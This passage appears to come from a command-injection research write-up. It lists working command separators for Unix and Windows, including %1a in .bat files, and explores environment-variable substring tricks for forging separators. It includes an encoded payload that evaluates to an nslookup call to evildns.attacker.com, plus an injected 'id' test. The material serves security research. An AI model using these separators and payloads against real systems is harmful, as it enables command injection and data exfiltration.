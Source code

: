 The above is just an example of bypassing poorly written input-sanitizing function from the perspective of alternative argument separators. 


#### Command separators trickery
Achieving the ability of injecting arbitrary commands usually boils down to the ability of injecting valid command separators first.

Below is the list of working commmand separators:

On unix:
- `%0a` (new line character)
- `%0d` (carriage return character)
- `;`
- `&`
- `|`

On windows:
- `%0a` (new line character)
- `&`
- `|`
- `%1a` - a magical character working as a command separator in .bat files (discovered while researching cmd.exe to find alternative command separators - full description of the finding: http://seclists.org/fulldisclosure/2016/Nov/67)

#### More witchcraft
Also, what's very interesting on win is the fact that the semicolon `;` does NOT work as a command separator. 
This is very sad, because e.g. the `%PATH%` env variable usually looks more-less like this:
`C:\WINDOWS\system32;C:\WINDOWS;C:\WINDOWS\System32\Wbem;C:\WINDOWS\System32\WindowsPowerShell\v1.0\;[...]`. 
Therefore it would be great to use an alternative command separator like `%PATH:~19,1%` (substring expression that cuts out the first `;`, so it evaluates to it) with payloads like `a%25PATH:~19,1%25nslookup%25ProgramFiles:~10,1%25evildns.attacker.com%25PATH:~19,1%25`, which would evaluate to `a;nslookup evildns.attacker.com;`.
Unfortunately the default environmental variables under Windows do not contain any supported command separator, like `&`. 
It WOULD work, here's why:

 ![Little test](screenshots/win_shellshock.png?raw=true "Little test")

* This behavior was described long time ago, being called the "Windows version" of the famous bash shellshock vulnerability (https://web.archive.org/web/20190212214038/https://www.thesecurityfactory.be/command-injection-windows.html)

I am still hoping for some undocumented cmd.exe function that will allow to forge `&` by some sort of single expression (or some hidden, undocumented special environmental variables not visible in `env` output). More research is needed.

By the way, I also really hoped for a similar thing to work on nix. E.g. the `$LS_COLORS` variable looks more-less like: `rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37[...]`.
Hence, I really hoped for expression like `ls .${LS_COLORS:10:1}id` to work (evaluating to `ls .;id` and treating `;` as a command separator). Unfortunately bash plays it safe and treats such a string as a literal:
`ls: cannot access '.;id': No such file or directory`. Who knows... More research is needed (especially with cmd.exe as it is not open source, but also on other shells like dash (and powershell!).
